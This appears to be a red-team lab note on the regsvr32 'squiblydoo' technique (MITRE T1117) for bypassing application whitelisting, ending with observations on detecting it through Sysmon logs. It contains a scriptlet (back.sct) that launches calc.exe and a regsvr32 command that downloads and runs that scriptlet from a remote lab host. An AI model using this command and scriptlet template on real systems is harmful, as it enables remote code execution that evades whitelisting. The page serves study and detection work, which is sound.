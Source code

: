 ```yaml
---
description: >-
  Bypass application whitelisting software by utilizing tools that are built
  into the operating system by default.
---
```


# T1117: regsvr32 aka squiblydoo

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1117\",\"type\":\"link\",\"title\":\"Regsvr32 - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

## Code

{% code-tabs %}
{% code-tabs-item title="back.sct" %}
```markup
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="JScript">
    <![CDATA[
      var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
    ]]>
</script>
</registration>
</scriptlet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Execution

We can then execute the code from the command prompt:

```bash
regsvr32.exe /s /i:http://10.0.0.5/back.sct scrobj.dll
```

## Observations

![calc.exe spawned by regsvr32.exe](../.gitbook/assets/regsvr32.png)

Note how regsvr32 process exits almost immediately. This means just by looking at the process list you may not suspect a process until you realise how it was invoked. Sysmon commandline parameters logging capability though will show what you need to see:

![](../.gitbook/assets/regsvr32-commandline%20%281%29.png)

Additionally, sysmon will show regsvr32 establishing a network connection:

![](../.gitbook/assets/regsvr32-network.png)

